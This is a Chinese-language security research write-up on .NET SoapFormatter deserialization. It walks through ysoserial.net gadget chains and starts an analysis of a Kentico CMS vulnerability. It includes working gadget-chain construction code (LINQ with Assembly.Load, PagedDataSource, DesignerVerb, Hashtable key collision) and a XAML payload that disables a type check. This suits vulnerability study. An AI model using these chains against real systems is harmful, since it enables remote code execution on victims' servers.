# SoapFormatter

SoapFormatter类似XmlSerializer，用于生成基于xml的soap数据流，命名空间位于System.Runtime.Serialization.Formatters.Soap。

# demo

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Soap;
using System.Text;

namespace SoapDeserialization
{
    [Serializable]
    class Person
    {
        private int age;
        private string name;

        public int Age { get => age; set => age = value; }
        public string Name { get => name; set => name = value; }
        public void SayHello()
        {
            Console.WriteLine("hello from SayHello");
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            SoapFormatter soapFormatter = new SoapFormatter();
            Person person = new Person();
            person.Age = 10;
            person.Name = "jack";
            using (MemoryStream stream = new MemoryStream())
            {
                soapFormatter.Serialize(stream,person);

                string soap = Encoding.UTF8.GetString(stream.ToArray());
                Console.WriteLine(soap);

                stream.Position = 0;
                Person p = (Person)soapFormatter.Deserialize(stream);
                Console.WriteLine(p.Name);
                p.SayHello();
            }

            Console.ReadKey();
        }
    }
}
```

输出

```xml
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<a1:Person id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/SoapDeserialization/SoapDeserialization%2C%20Version%3D1.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Dnull">
<age>10</age>
<name id="ref-3">jack</name>
</a1:Person>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>

jack
hello from SayHello
```

soap使用xmlns标间来限定命名空间，体现在a1标签。



同样实现两个接口 IRemotingFormatter, IFormatter，具有多个序列化反序列化方法重载，具有代理选择器。

# 攻击链

在ysoserial.net中，SoapFormatter同样有很多的攻击链。本章节介绍ActivitySurrogateSelector、ActivitySurrogateSelectorFromFile、ActivitySurrogateDisableTypeCheck。

## ActivitySurrogateSelector

在[dotnet serialize 101](./dotnet-serialize-101.md)中我们已经介绍了代理选择器的使用方法，这里不再赘述。而代理选择器的用法在于是原本不能被序列化的类可以用来序列化和反序列化。看一个demo

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Soap;

namespace SoapDeserialization
{
    class Person
    {
        public string Name { get; set; }
        public Person(string name)
        {
            Name = name;
        }

        public override string ToString()
        {
            return Name;
        }
    }

    sealed class PersonSerializeSurrogate : ISerializationSurrogate
    {

        public void GetObjectData(Object obj, SerializationInfo info, StreamingContext context)
        {
            var p = (Person)obj;
            info.AddValue("Name", p.Name);
        }

        public Object SetObjectData(Object obj, SerializationInfo info, StreamingContext context, ISurrogateSelector selector)
        {
            var p = (Person)obj;
            p.Name = info.GetString("Name");
            return p;
        }
    }

    class Program
    {
        public static void Main(string[] args)
        {
            System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
            SoapFormatter fmt = new SoapFormatter();
            MemoryStream stm = new MemoryStream();

            var ss = new SurrogateSelector();
            ss.AddSurrogate(typeof(Person), new StreamingContext(StreamingContextStates.All), new PersonSerializeSurrogate());
            fmt.SurrogateSelector = ss;
            fmt.Serialize(stm, new Person("jack"));
            stm.Position = 0;
            Console.WriteLine(fmt.Deserialize(stm));

            stm.Position = 0;
            var fmt2 = new SoapFormatter();
            Console.WriteLine(fmt2.Deserialize(stm));
            Console.ReadKey();
        }
    }
}
```

自定义了一个PersonSerializeSurrogate代理器用于给Person类进行序列化和反序列化，即使Person没有标注Serializable可序列化，但是仍然可以被序列化。



虽然输出了jack，但是我们另一个formatter即fmt2不能正确反序列化jack对象，因为fmt2没有设置代理选择器。而在审计的实际过程中，目标的formatter根本不会指定我们自实现的代理选择器，他都不知道我们自己实现的代理选择器是什么样的。

再来看这条链，牛就牛在发现了[ActivitiySurrogateSelector](https://msdn.microsoft.com/en-us/library/system.workflow.componentmodel.serialization.activitysurrogateselector(v=vs.110).aspx)这个类中的ObjectSurrogate，通过这个内部类我们可以反序列化任何对象。看一下这个类的使用

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Soap;

namespace SoapDeserialization
{
    class NonSerializable
    {
        private string _text;

        public NonSerializable(string text)
        {
            _text = text;
        }

        public override string ToString()
        {
            return _text;
        }
    }

    // Custom serialization surrogate
    class MySurrogateSelector : SurrogateSelector
    {
        public override ISerializationSurrogate GetSurrogate(Type type, StreamingContext context, out ISurrogateSelector selector)
        {
            selector = this;
            if (!type.IsSerializable)
            {
                Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
                return (ISerializationSurrogate)Activator.CreateInstance(t);
            }
            return base.GetSurrogate(type, context, out selector);
        }
    }

    class Program
    {
        public static void Main(string[] args)
        {
            System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
            SoapFormatter fmt = new SoapFormatter();
            MemoryStream stm = new MemoryStream();


            fmt.SurrogateSelector = new MySurrogateSelector();
            fmt.Serialize(stm, new NonSerializable("Hello World!"));
            stm.Position = 0;

            var fmt2 = new SoapFormatter();
            Console.WriteLine(fmt2.Deserialize(stm));
            Console.ReadKey();
        }
    }
}
```

NonSerializable仍然没有标记Serializable，但是在获取代理器的时候返回了一个ActivitySurrogateSelector+ObjectSurrogate的实例，使得NonSerializable类仍旧可以被序列化。并且fmt2并没有指定代理选择器的前提下，仍然可以正常反序列化对象，这样就解决了上文的限制。

使用dnspy跟进序列化的过程:



在System.Runtime.Serialization.Formatters.Soap.WriteObjectInfo.InitSerialize()获取到ActivitySurrogateSelector+ObjectSurrogate代理器，用代理器进行序列化和反序列化。查看[微软开源的代码](https://github.com/Microsoft/referencesource/blob/4fe4349175f4c5091d972a7e56ea12012f1e7170/System.Workflow.ComponentModel/AuthoringOM/Serializer/ActivitySurrogateSelector.cs#L135)可见：



同样实现GetObjectData和SetObjectData，在GetObjectData调用SetType设置类型为其子类ObjectSerializedRef



该子类可以序列化，也就是说，上文中ObjectSurrogate.GetObjectData()将原本不可被序列化的对象存储到ObjectSerializedRef这个可以被序列化的类实例中，由此实现序列化原本不可序列化的类。


那么到现在我们的视线就不必局限于可序列化的类了，原作者的眼光就转向了LINQ。LINQ是C#中的语言集成查询语法，像这样：

```csharp
public static void Main(string[] args)
{
    var word = "hello from linq.";
    var words = word.Split(' ');
    var q1 = from s in words
        where s.ToLower().Contains('o')
        select s;
    Console.WriteLine(q1);
    foreach (var item in q1)
    {
        Console.WriteLine(item);
    }
    Console.ReadKey();
}
```

输出

```
System.Linq.Enumerable+WhereArrayIterator`1[System.String]
hello
from
```

其中

```csharp
var q1 = from s in words
    where s.ToLower().Contains('o')
    select s;
```

用方法调用的形式可以表现为

```csharp
words.Where(s => s.ToLower().Contains('o')).Select(s=>s)
```

其中方法调用的形式叫做标准查询操作符，其定义如下：



以`public static IEnumerable<TSource> Where<TSource>(this IEnumerable<TSource> source, Func<TSource, bool> predicate)`为例，第一个参数source是传入的集合即words，第二个参数predicate是`Func<TSource, bool>`类型的委托，用于对集合进行处理，并返回处理后的结果集合TSource。

在Where()和Select()两层处理的时候实际上是进行了两次委托处理，`s => s.ToLower().Contains('o')`和`s=>s`，传入的集合(参数)和传出的集合(结果)在Where()和Select()之间传递。

了解了这些之后我们还要了解一点，LINQ是延迟执行的。

```csharp
var q1 = from s in words
    where s.ToLower().Contains('o')
    select s;
```

这种定义只是声明了委托实例而已，并没有执行查询，只有select的时候才会从进行处理。


现在了解了LINQ和ActivitySurrogateSelector+ObjectSurrogate选择代理器之后，我们继续思考，在java中RMI的应用会在构造函数中执行Runtime.exec()，加载类之后会执行恶意命令。在C#中同理，如果我们可以加载自己的程序集，那么在new实例的时候触发构造函数同样会执行恶意代码。


如果我们替换了LINQ中的委托，通过替换委托来加载程序集并创建实例，那么触发LINQ之后就会执行恶意代码。由此思路，原作者设计了一条链



一步一步看，第一步代码实现如下


将e.dll通过Assembly.Load加载进来，Select()方法的委托传入`IEnumerable<byte[]>`数组传出`IEnumerable<Assembly>`

第二步，Assembly.GetTypes返回Type[]数组，并且没有输入参数，我们可以用`Delegate.CreateDelegate`创建一个委托

```csharp
Func<Assembly, IEnumerable<Type>> map_type = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));
```

类型为`Func<Assembly, IEnumerable<Type>>`，而`public virtual Type[] GetTypes()`的签名返回的也是`Type[]`，然后配合SelectMany()拿到Assembly.GetTypes()。

```csharp
var e2 = e1.SelectMany(map_type);
var e3 = e2.Select(Activator.CreateInstance);
```

最后Activator.CreateInstance创建实例就完成了整个LINQ的链。但是到这里LINQ并不会自动执行，因为我们上文提到了LINQ的延时执行特点，那么如何让LINQ自动枚举触发Assembly.Load，原作者的思路是找到一个反序列化时触发ToString()的，然后从ToString()到IEnumerable。

找到的链条如下：

```
IEnumerable -> PagedDataSource -> ICollection
ICollection -> AggregateDictionary -> IDictionary
IDictionary -> DesignerVerb -> ToString
```

上文中的e3对象是一个`IEnumerable<Object>`类型，在PagedDataSource中DataSource对应。



而PagedDataSource实现了ICollection接口，然后将其转为IDictionary类型，找到AggregateDictionary



转为IDictionary类型之后又找到DesignerVerb类



他的this.Properties是MenuCommand类的Properties属性，类型为IDictionary。将它的Properties设置为AggregateDictionary对象，在ToString的时候就会触发LINQ。构造代码如下

```csharp
// PagedDataSource maps an arbitrary IEnumerable to an ICollection
PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
// AggregateDictionary maps an arbitrary ICollection to an IDictionary 
// Class is internal so need to use reflection.
IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

// DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
verb = new DesignerVerb("", null);
// Need to insert IDictionary using reflection.
typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);
```

现在怎么触发ToString就是最后一步了。原作者利用的是Hashtable。在对Hashtable类进行反序列化期间，它将重建其密钥集， 如果两个键相等，则反序列化将失败，并且Hashtable会引发异常，从而导致运行[以下代码](https://github.com/Microsoft/referencesource/blob/4fe4349175f4c5091d972a7e56ea12012f1e7170/mscorlib/system/collections/hashtable.cs#L959)：

```csharp
// The current bucket is in use
// OR
// it is available, but has had the collision bit set and we have already found an available bucket
if (((buckets[bucketNumber].hash_coll & 0x7FFFFFFF) == hashcode) && 
    KeyEquals (buckets[bucketNumber].key, key)) {
    if (add) {
        throw new ArgumentException(Environment.GetResourceString("Argument_AddingDuplicate__", buckets[bucketNumber].key, key));
    }
```

而在GetResourceString中



String.Format将value直接当作字符串返回，那么values会进行ToString()。构造代码

```csharp
ht = new Hashtable();
ht.Add(verb, "");
ht.Add("", "");

FieldInfo fi_keys = ht.GetType().GetField("buckets", BindingFlags.NonPublic | BindingFlags.Instance);
Array keys = (Array)fi_keys.GetValue(ht);
FieldInfo fi_key = keys.GetType().GetElementType().GetField("key", BindingFlags.Public | BindingFlags.Instance);
for (int i = 0; i < keys.Length; ++i)
{
    object bucket = keys.GetValue(i);
    object key = fi_key.GetValue(bucket);
    if (key is string)
    {
        fi_key.SetValue(bucket, verb);
        keys.SetValue(bucket, i);
        break;
    }
}

fi_keys.SetValue(ht, keys);

ls.Add(ht);
```

反射修改buckets字段的key值，将key是string的替换为verb，由此两个key相同，hash相同报错，然后触发ToString()。但是hashtable重建的时候报错那么利用的时候就会报500错误，ysoserial用`System.Windows.Forms.AxHost.State`解决了这个问题。

在ysoserial.net中，对象序列化的时候GetObjectData设置了一个type



将PropertyBagBinary字段设置为BinaryFormatter序列化之后的payload



查看其序列化函数，发现`this.propBag.Read(new MemoryStream(array2))`



相当于将PropertyBagBinary字段的byte直接反序列化，不同的是加了try catch，这样在我们利用的时候不会报错。

整个链条到这里就通了。捋一下

1. 从ActivitySurrogateSelector+ObjectSurrogate序列化一些原本不能被序列化的类，瞄准了LINQ
2. LINQ替换其委托为Assembly.Load加载自己的恶意代码并创建实例
3. 通过IEnumerable -> PagedDataSource -> ICollectionICollection -> AggregateDictionary -> IDictionary -> DesignerVerb -> ToString
4. 通过HashTable键值重复触发报错进入ToString
5. 然后用`System.Windows.Forms.AxHost.State`包装一下，try catch处理异常。

## AxHostState 攻击链

在上文中已经提到了`System.Windows.Forms.AxHost.State`的PropertyBagBinary字段会进行反序列化，ysoserial.net中将其用来解决ActivitySurrogateSelector报错的问题。

## ActivitySurrogateSelectorFromFile

这个其实也是ActivitySurrogateSelector利用链，只不过可以执行自己编写的程序集。下面的代码是接收参数并动态编译读取字节码存入自身assemblyBytes字段。



## ActivitySurrogateDisableTypeCheck

在dotnet4.8中，微软修复了对ActivitySurrogateSelector类的滥用，[代码在这里](https://github.com/microsoft/referencesource/blob/74eb1593e09a636270482f1c0525aabdccb1f364/System.Workflow.ComponentModel/AuthoringOM/Serializer/ActivitySurrogateSelector.cs#L123)



而国外有人研究了一下，发现可以用TextFormattingRunProperties关闭DisableActivitySurrogateSelectorTypeCheck类型检查，在上文中代码就有提到，表现为如下：

```csharp
System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
```

封装的payload如下

```xml
<ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

理解起来比较简单，就不解释了。

# Kentico CMS SOAP Deserialize RCE CVE-2019-10068

安装包下载：https://download.kentico.com/Kentico_11_0.exe

查看漏洞描述：

> An issue was discovered in Kentico before 12.0.15. Due to a failure to validate security headers, it was possible for a specially crafted request to the staging service to bypass the initial authentication and proceed to deserialize user-controlled .NET object input. This deserialization then led to unauthenticated remote code execution on the server where the Kentico instance was hosted.

在12.0.15之前可以绕过身份验证进行soap反序列化，在官网下个补丁看看https://devnet.kentico.com/download/hotfixes。因为是11版本的



下两个补丁11.0.47和11.0.48，安装完之后把Hotfix110_48\DLLs\Net46文件夹用JustDecompile打开，搜一下soapformatter



可见在打了补丁的11.0.48中soapformatter直接进行了反序列化，但是用到了Binder。

